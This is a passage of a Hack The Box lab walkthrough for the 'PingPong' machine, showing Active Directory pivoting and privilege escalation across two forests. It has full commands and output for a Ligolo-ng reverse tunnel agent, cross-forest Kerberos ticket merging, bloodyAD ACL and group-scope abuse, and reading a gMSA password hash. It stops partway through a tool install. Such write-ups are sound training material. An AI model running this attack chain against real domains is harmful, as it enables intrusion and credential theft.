┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ evil-winrm -i DC1.ping.htb -u 'c.roberts' -K c.roberts.ccache -r ping.htb
                                        
Evil-WinRM shell v3.9
                                        
Warning: KRB5CCNAME is already set to: c.roberts.ccache. Using existing value instead of /mnt/cybersecurity/notes/HTB/Machines/PingPong/files/c.roberts.ccache
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Roberts\Documents>
```

## Pivoting

Confirming identity on `DC1` showed `C.Roberts` was now a member of `PING\TempWinRMAccess` (asserted by the `ESC13` `OID`) and `PING\IT`. The `ipconfig /all` output revealed `DC1` had two network interfaces — one on the `HTB` network (`10.129.34.57`) and one on an internal `Hyper-V` switch at `192.168.2.1`, with a secondary `DNS` server at `192.168.2.2` pointing to the `pong.htb` forest.

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== =============================================
ping\c.roberts S-1-5-21-750635624-2058721901-1932338391-2617


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
PING\TempWinRMAccess                        Group            S-1-5-21-750635624-2058721901-1932338391-2602 Mandatory group, Enabled by default, Enabled group
PING\IT                                     Group            S-1-5-21-750635624-2058721901-1932338391-2618 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Certificate  Well-known group S-1-5-65-1                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc1
   Primary Dns Suffix  . . . . . . . : ping.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : ping.htb
                                       .htb

Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Hyper-V Virtual Ethernet Adapter #2
   Physical Address. . . . . . . . . : 00-15-5D-16-86-01
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 192.168.2.1(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 0.0.0.0
   DNS Servers . . . . . . . . . . . : 127.0.0.1
                                       192.168.2.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-94-FD-77
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.129.34.57(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Saturday, April 25, 2026 8:05:09 PM
   Lease Expires . . . . . . . . . . : Saturday, April 25, 2026 9:35:07 PM
   Default Gateway . . . . . . . . . : 10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

`Ligolo-ng` was used to tunnel traffic to the internal `192.168.2.0/24` network via `DC1`. The proxy was started on the attacker machine, a `ligolo` interface was created, and the `192.168.2.0/24` route was added to it.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ sudo ./proxy -selfcert 
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? No
WARN[0004] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0004] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0004] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                                                                                                                                                                                                                                                                                                                                                                         
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                                                                                                                                                                                                                                                                                                         
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                                                                                                                                                                                                                                                                                                          
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                                                                                                                                                                                                                                                                                                           
        /____/                          /____/                                                                                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                                                                                                                                          
  Made in France ♥            by @Nicocha30!                                                                                                                                                                                                                                                                                                                                                                                              
  Version: 0.8.3                                                                                                                                                                                                                                                                                                                                                                                                                          
                                                                                                                                                                                                                                                                                                                                                                                                                                          
ligolo-ng » 
```

```shell
ligolo-ng » ifcreate --name ligolo
INFO[0033] Creating a new ligolo interface...           
INFO[0033] Interface created!
```

```shell
ligolo-ng » route_add --name ligolo --route 192.168.2.0/24
INFO[0047] Route created.
```

The `Ligolo-ng` agent was uploaded and started on `DC1` connecting back to the attacker machine.

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> upload agent.exe
                                        
Info: Uploading /mnt/cybersecurity/notes/HTB/Machines/PingPong/files/agent.exe to C:\Users\C.Roberts\Documents\agent.exe
                                        
Data: 9736872 bytes of 9736872 bytes copied
                                        
Info: Upload successful!
```

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> Start-Process -FilePath ".\agent.exe" -ArgumentList "-connect 10.10.16.10:11601 -ignore-cert" -WindowStyle Hidden
```

```shell
ligolo-ng » INFO[0381] Agent joined.                                 id=00155d168601 name="PING\\C.Roberts@dc1" remote="10.129.34.57:57592"
```

```shell
ligolo-ng » session
? Specify a session : 1 - PING\C.Roberts@dc1 - 10.129.34.57:57592 - 00155d168601
[Agent : PING\C.Roberts@dc1] »
```

```shell
[Agent : PING\C.Roberts@dc1] » start
INFO[0397] Starting tunnel to PING\C.Roberts@dc1 (00155d168601)
```

With the tunnel active, an `Nmap` scan against `192.168.2.2` identified it as `DC2.pong.htb` — a second Domain Controller running `Microsoft SQL Server 2022` on port `1433/TCP` in addition to the standard `AD` services.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 192.168.2.2
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-26 06:08 +0200
Nmap scan report for DC2.pong.htb (192.168.2.2)
Host is up (0.070s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-26 04:09:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: pong.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
|_ssl-date: 2026-04-26T04:10:10+00:00; 0s from scanner time.
| ms-sql-info: 
|   192.168.2.2:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-26T03:07:37
|_Not valid after:  2056-04-26T03:07:37
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: pong.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC2; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-26T04:09:30
|_  start_date: N/A
|_nbstat: NetBIOS name: DC2, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:16:86:02 (Microsoft)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.73 seconds
```

Both `pong.htb` and `DC2.pong.htb` were added to `/etc/hosts`.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.34.57    ping.htb
10.129.34.57    DC1.ping.htb
10.129.34.57    ping-DC1-CA
192.168.2.2     pong.htb
192.168.2.2     DC2.pong.htb
```

## Active Directory Enumeration (Part 2)

To enumerate `pong.htb` via the cross-forest trust, the `krb5.conf` was updated to include the `PONG.HTB` realm pointing at `DC2`, enabling `Kerberos` operations across both forests from the same configuration file.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ cat krb5.conf 
[libdefaults]
    default_realm = PING.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true
    rdns = false

[realms]
    PING.HTB = {
        kdc = DC1.ping.htb
        admin_server = DC1.ping.htb
        default_domain = ping.htb
    }
    PONG.HTB = {
        kdc = DC2.pong.htb
        admin_server = DC2.pong.htb
        default_domain = pong.htb
    }

[domain_realm]
    .ping.htb = PING.HTB
    ping.htb = PING.HTB
    .pong.htb = PONG.HTB
    pong.htb = PONG.HTB
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5_CONFIG=./krb5.conf
```

Authentication to `DC2` via `Kerberos` succeeded using `C.Roberts`'s existing `TGT` — the cross-forest trust in `ping.htb` allowed referral ticket issuance for `pong.htb` without needing separate `pong.htb` credentials.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ netexec ldap DC2.pong.htb -k --use-kcache
LDAP        DC2.pong.htb    389    DC2              [*] None (name:DC2) (domain:PING.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        DC2.pong.htb    389    DC2              [+] PING.HTB\c.roberts from ccache
```

Since problems appeared using the `NetExec` module `--bloodhound` and `bloodhound-python`, `RustHound-CE` was used for `BloodHound` data collection on `pong.htb`, returning 19 users, 64 groups and 1 computer.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ rusthound-ce -d pong.htb -f DC2.pong.htb -k -c All --zip                                               
---------------------------------------------------
Initializing RustHound-CE at 15:50:06 on 04/26/26
Powered by @g0h4n_0
---------------------------------------------------

[2026-04-26T13:50:06Z INFO  rusthound_ce] Verbosity level: Info
[2026-04-26T13:50:06Z INFO  rusthound_ce] Collection method: All
[2026-04-26T13:50:07Z INFO  rusthound_ce::ldap] Connected to PONG.HTB Active Directory!
[2026-04-26T13:50:07Z INFO  rusthound_ce::ldap] Starting data collection...
[2026-04-26T13:50:07Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-04-26T13:50:10Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=pong,DC=htb
[2026-04-26T13:50:10Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-04-26T13:50:20Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Configuration,DC=pong,DC=htb
[2026-04-26T13:50:20Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-04-26T13:50:31Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Schema,CN=Configuration,DC=pong,DC=htb
[2026-04-26T13:50:31Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-04-26T13:50:31Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=DomainDnsZones,DC=pong,DC=htb
[2026-04-26T13:50:31Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-04-26T13:50:31Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=ForestDnsZones,DC=pong,DC=htb
[2026-04-26T13:50:31Z INFO  rusthound_ce::api] Starting the LDAP objects parsing...
[2026-04-26T13:51:01Z INFO  rusthound_ce::api] Parsing LDAP objects finished!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::checker] Starting checker to replace some values...
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::checker] Checking and replacing some values finished!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::maker::common] 19 users parsed!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::maker::common] 64 groups parsed!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::maker::common] 2 ous parsed!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::maker::common] 2 domains parsed!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::maker::common] 3 gpos parsed!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::maker::common] 73 containers parsed!
[2026-04-26T13:51:01Z INFO  rusthound_ce::json::maker::common] .//20260426155101_pong-htb_rusthound-ce.zip created!

RustHound-CE Enumeration Completed at 15:51:01 on 04/26/26! Happy Graphing!
```

`BloodHound` revealed two critical `Outbound Object Control` paths: `C.Roberts` held `GenericWrite` over the `gMSA Managers` group in `pong.htb`, and `gMSA Managers` had read access to the `Pong_gMSA$` `Group Managed Service Account` (`gMSA`) password — making `C.Roberts` two hops away from the `gMSA` credentials.





## Lateral Movement

## Privilege Escalation to Pong_gMSA$

### Access Control Entry (ACE) Owns + ReadGMSAPassword Abuse and Cross-Forest Group Membership Manipulation

To exercise cross-forest write permissions against `DC2`, `C.Roberts`'s `TGT` needed a cross-forest referral ticket for `pong.htb`. `impacket-getST` was used to request a `TGT` referral for the `krbtgt/pong.htb` `SPN`, which was then converted through `kirbi` format and merged back into the active credential cache to allow seamless cross-forest operations.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ certipy-ad auth -pfx c.roberts.pfx -dc-ip 10.129.34.57
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'C.Roberts@ping.htb'
[*]     Security Extension SID: 'S-1-5-21-750635624-2058721901-1932338391-2617'
[*] Using principal: 'c.roberts@ping.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'c.roberts.ccache'
File 'c.roberts.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'c.roberts.ccache'
[*] Trying to retrieve NT hash for 'c.roberts'
[*] Got hash for 'c.roberts@ping.htb': aad3b435b51404eeaad3b435b51404ee:2475be69d40e815588a85fd89c7a439d
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=c.roberts.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-getST -k -no-pass -spn 'krbtgt/pong.htb' -dc-ip 10.129.34.57 ping.htb/c.roberts
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting ST for user
[*] Saving ticket in c.roberts@krbtgt_PONG.HTB@PING.HTB.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=c.roberts.ccache
```

The cross-forest referral ticket was converted from `.ccache` to `.kirbi` and back to `.ccache` before being merged into the primary cache — a workaround for the fact that `Impacket` credential caches store one principal at a time and merging requires the `kirbi` intermediate format.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-ticketConverter c.roberts@krbtgt_PONG.HTB@PING.HTB.ccache krbtgt_pong.kirbi
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting ccache to kirbi...
[+] done
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-ticketConverter krbtgt_pong.kirbi krbtgt_pong.ccache
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ kswitch -c krbtgt_pong.ccache 2>/dev/null || \
  KRB5CCNAME=c.roberts.ccache python3 -c "
from impacket.krb5.ccache import CCache
c1 = CCache.loadFile('c.roberts.ccache')
c2 = CCache.loadFile('c.roberts@krbtgt_PONG.HTB@PING.HTB.ccache')
for cred in c2.credentials:
    c1.credentials.append(cred)
c1.saveFile('c.roberts.ccache')
print('Merged')
"
```

With the merged cache in place, `BloodyAD` was used across the cross-forest trust to grant `C.Roberts` (`S-1-5-21-750635624-2058721901-1932338391-2617`) `GenericAll` over the `gMSA Managers` group in `pong.htb`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodyAD --host dc2.pong.htb -k kdc=10.129.34.57 -d ping.htb -u c.roberts add genericAll 'gMSA Managers' 'S-1-5-21-750635624-2058721901-1932338391-2617'
[+] S-1-5-21-750635624-2058721901-1932338391-2617 has now GenericAll on gMSA Managers
```

Before adding `C.Roberts` as a member, `gMSA Managers` needed to be converted to a universal group. `gMSA` `PrincipalsAllowedToReadPassword` (`PARP`) membership is evaluated by the `Key Distribution Service` when a `gMSA` password is requested, and cross-forest principal resolution requires the controlling group to be of universal scope — a global group is only resolvable within its own domain. Two `groupType` values were set sequentially: first `-2147483640` (Universal Security) as an intermediate step — Active Directory enforces sequential scope changes and does not allow a direct conversion from Global to Domain Local — and then `-2147483644` (Domain Local Security), which accepts members from any trusted domain including cross-forest principals.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodyAD --host dc2.pong.htb -k kdc=10.129.34.57 -d ping.htb -u c.roberts set object 'gMSA Managers' groupType -v '-2147483640'
[+] gMSA Managers's groupType has been updated
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodyAD --host dc2.pong.htb -k kdc=10.129.34.57 -d ping.htb -u c.roberts set object 'gMSA Managers' groupType -v '-2147483644'
[+] gMSA Managers's groupType has been updated
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodyAD --host dc2.pong.htb -k kdc=10.129.34.57 -d ping.htb -u c.roberts add groupMember 'CN=gMSA Managers,CN=Users,DC=pong,DC=htb' 'S-1-5-21-750635624-2058721901-1932338391-2617'
[+] S-1-5-21-750635624-2058721901-1932338391-2617 added to CN=gMSA Managers,CN=Users,DC=pong,DC=htb
```

With `C.Roberts` now a member of `gMSA Managers`, `NetExec` successfully read the `Pong_gMSA$` password.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ netexec ldap DC2.pong.htb -k --use-kcache --gmsa                                                                                                        
LDAP        DC2.pong.htb    389    DC2              [*] None (name:DC2) (domain:PING.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        DC2.pong.htb    389    DC2              [+] PING.HTB\c.roberts from ccache 
LDAP        DC2.pong.htb    389    DC2              [*] Getting GMSA Passwords
LDAP        DC2.pong.htb    389    DC2              Account: Pong_gMSA$           NTLM: 4b85a2a049588810c1267e4018b07a07     PrincipalsAllowedToReadPassword: gMSA Managers
```

## Enumeration (Pong_gMSA$)

`BloodHound` showed `Pong_gMSA$` had `CanPSRemote` rights on `DC1`, indicating a `WinRM`-accessible endpoint. Manual enumeration of `C:\ProgramData` and `C:\Windows\System32\WindowsPowerShell\v1.0\SessionConfig` as `C.Roberts` on `DC1` revealed a `JEA` session configuration named `restricted`.



Browsing `C:\ProgramData` as `Pong_gMSA$` revealed a `JEA` directory containing a `JEA.pssc` session configuration file. The `SessionType` was `RestrictedRemoteServer` and `LanguageMode` was `ConstrainedLanguage` — meaning `PowerShell` built-in functionality was heavily restricted but `cmdlets` whitelisted by the `JEA` role capability file remained available.

```cmd
*Evil-WinRM* PS C:\ProgramData> dir


    Directory: C:\ProgramData


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/17/2026   3:41 AM                JEA
d---s-         6/15/2025   9:55 PM                Microsoft
d-----         6/16/2025   4:05 AM                Package Cache
d-----        11/28/2025   6:53 AM                Packages
d-----          1/1/2026   9:29 AM                regid.1991-06.com.microsoft
d-----          5/8/2021   1:20 AM                SoftwareDistribution
d-----        12/25/2025   6:01 AM                ssh
d-----         6/16/2025   4:08 AM                USOPrivate
d-----          5/8/2021   1:20 AM                USOShared
d-----         6/16/2025   4:05 AM                VMware
```

```cmd
*Evil-WinRM* PS C:\ProgramData\JEA> dir


    Directory: C:\ProgramData\JEA


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/5/2026   5:39 AM            477 JEA.pssc
```

```cmd
*Evil-WinRM* PS C:\ProgramData\JEA> type JEA.pssc
@{

# Version number of the schema used for this document
SchemaVersion = '2.0.0.0'

# ID used to uniquely identify this document
GUID = 'e26939b6-819a-496e-be9a-dfb45427c765'

# ConfigurationName = 'restricted'

# Author of this document
Author = 'Administrator'

# Session type defaults to apply for this session configuration. Can be 'RestrictedRemoteServer' (recommended), 'Empty', or 'Default'
SessionType = 'RestrictedRemoteServer'
LanguageMode = 'ConstrainedLanguage'
}
```

The registered session configuration on disk confirmed the `GUID` and the endpoint name `restricted`.

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> Get-ChildItem "C:\Windows\System32\WindowsPowerShell\v1.0\SessionConfig" -Recurse


    Directory: C:\Windows\System32\WindowsPowerShell\v1.0\SessionConfig


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/17/2026   3:44 AM            441 restricted_e26939b6-819a-496e-be9a-dfb45427c765.pssc
```

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> Get-Content "C:\Windows\System32\WindowsPowerShell\v1.0\SessionConfig\restricted_e26939b6-819a-496e-be9a-dfb45427c765.pssc"
@{

# Version number of the schema used for this document
SchemaVersion = '2.0.0.0'

# ID used to uniquely identify this document
GUID = 'e26939b6-819a-496e-be9a-dfb45427c765'

# Author of this document
Author = 'Administrator'

# Session type defaults to apply for this session configuration. Can be 'RestrictedRemoteServer' (recommended), 'Empty', or 'Default'
SessionType = 'RestrictedRemoteServer'
LanguageMode = 'ConstrainedLanguage'
}
```

## Privilege Escalation to C.Carlssen

### Just Enough Administration (JEA) Bypass

`ldeep` was used to read the `Pong_gMSA$` credentials directly from `LDAP` using `C.Roberts`'s cross-forest `Kerberos` ticket. A `Python` virtual environment was set up and `ldeep` was installed from source.

- [https://github.com/franc-pentest/ldeep](https://github.com/franc-pentest/ldeep)

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/ldeep]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.13.12.final.0-64 in 476ms
  creator CPython3Posix(dest=/home/kali/opt/10_post_exploitation/ldeep/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.cache/virtualenv)
    added seed packages: pip==26.0.1
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/ldeep]
└─$ source venv/bin/activate
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/ldeep]
└─$ python -m pip install git+https://github.com/franc-pentest/ldeep
Collecting git+https://github.com/franc-pentest/ldeep
  Cloning https://github.com/franc-pentest/ldeep to /tmp/pip-req-build-qdmywv6u
  Running command git clone --filter=blob:none --quiet https://github.com/franc-pentest/ldeep /tmp/pip-req-build-qdmywv6u
  Resolved https://github.com/franc-pentest/ldeep to commit 89abc02e7f99fdf0df8b37e0f15849263d2e6cce
  Installing build dependencies ... done
  Getting requirements to build wheel ... done
  Preparing metadata (pyproject.toml) ... done
Collecting commandparse<2,>=1.1.1 (from ldeep==1.0.90.dev59+g89abc02)
  Downloading commandparse-1.1.2.tar.gz (5.4 kB)
  Installing build dependencies ... done
  Getting requirements to build wheel ... done
  Preparing metadata (pyproject.toml) ... done
Collecting cryptography>=42.0.7 (from ldeep==1.0.90.dev59+g89abc02)
  Downloading cryptography-47.0.0-cp311-abi3-manylinux_2_34_x86_64.whl.metadata (4.5 kB)
Collecting dnspython>=1.15.0 (from ldeep==1.0.90.dev59+g89abc02)
  Using cached dnspython-2.8.0-py3-none-any.whl.metadata (5.7 kB)
Collecting gssapi<2,>=1.8.0 (from ldeep==1.0.90.dev59+g89abc02)
  Using cached gssapi-1.11.1-cp311-abi3-linux_x86_64.whl
Collecting ldap3-bleeding-edge==2.10.1.1337 (from ldeep==1.0.90.dev59+g89abc02)
  Downloading ldap3_bleeding_edge-2.10.1.1337-py3-none-any.whl.metadata (7.5 kB)
Collecting oscrypto<2,>=1.3.0 (from ldeep==1.0.90.dev59+g89abc02)
  Downloading oscrypto-1.3.0-py2.py3-none-any.whl.metadata (15 kB)
Collecting pycryptodome<4,>=3.19.0 (from ldeep==1.0.90.dev59+g89abc02)
  Using cached pycryptodome-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (3.4 kB)
Collecting pycryptodomex<4,>=3.19.0 (from ldeep==1.0.90.dev59+g89abc02)
  Using cached pycryptodomex-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (3.4 kB)
Collecting six<2,>=1.16.0 (from ldeep==1.0.90.dev59+g89abc02)
  Using cached six-1.17.0-py2.py3-none-any.whl.metadata (1.7 kB)
Collecting termcolor>3 (from ldeep==1.0.90.dev59+g89abc02)
  Downloading termcolor-3.3.0-py3-none-any.whl.metadata (6.5 kB)
Collecting tqdm<5,>=4.26.0 (from ldeep==1.0.90.dev59+g89abc02)
  Using cached tqdm-4.67.3-py3-none-any.whl.metadata (57 kB)
Collecting pyasn1>=0.4.6 (from ldap3-bleeding-edge==2.10.1.1337->ldeep==1.0.90.dev59+g89abc02)
  Using cached pyasn1-0.6.3-py3-none-any.whl.metadata (8.4 kB)
Collecting decorator (from gssapi<2,>=1.8.0->ldeep==1.0.90.dev59+g89abc02)
  Using cached decorator-5.2.1-py3-none-any.whl.metadata (3.9 kB)
Collecting asn1crypto>=1.5.1 (from oscrypto<2,>=1.3.0->ldeep==1.0.90.dev59+g89abc02)
  Using cached asn1crypto-1.5.1-py2.py3-none-any.whl.metadata (13 kB)
Collecting cffi>=2.0.0 (from cryptography>=42.0.7->ldeep==1.0.90.dev59+g89abc02)
  Using cached cffi-2.0.0-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.whl.metadata (2.6 kB)
Collecting pycparser (from cffi>=2.0.0->cryptography>=42.0.7->ldeep==1.0.90.dev59+g89abc02)
  Using cached pycparser-3.0-py3-none-any.whl.metadata (8.2 kB)
Downloading ldap3_bleeding_edge-2.10.1.1337-py3-none-any.whl (488 kB)
Downloading oscrypto-1.3.0-py2.py3-none-any.whl (194 kB)
Using cached pycryptodome-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.3 MB)
Using cached pycryptodomex-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.3 MB)
Using cached six-1.17.0-py2.py3-none-any.whl (11 kB)
Using cached tqdm-4.67.3-py3-none-any.whl (78 kB)
Using cached asn1crypto-1.5.1-py2.py3-none-any.whl (105 kB)
Downloading cryptography-47.0.0-cp311-abi3-manylinux_2_34_x86_64.whl (4.7 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 4.7/4.7 MB 180.9 kB/s  0:00:32
Using cached cffi-2.0.0-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.whl (219 kB)
Using cached dnspython-2.8.0-py3-none-any.whl (331 kB)
Using cached pyasn1-0.6.3-py3-none-any.whl (83 kB)
Downloading termcolor-3.3.0-py3-none-any.whl (7.7 kB)
Using cached decorator-5.2.1-py3-none-any.whl (9.2 kB)
Using cached pycparser-3.0-py3-none-any.whl (48 kB)
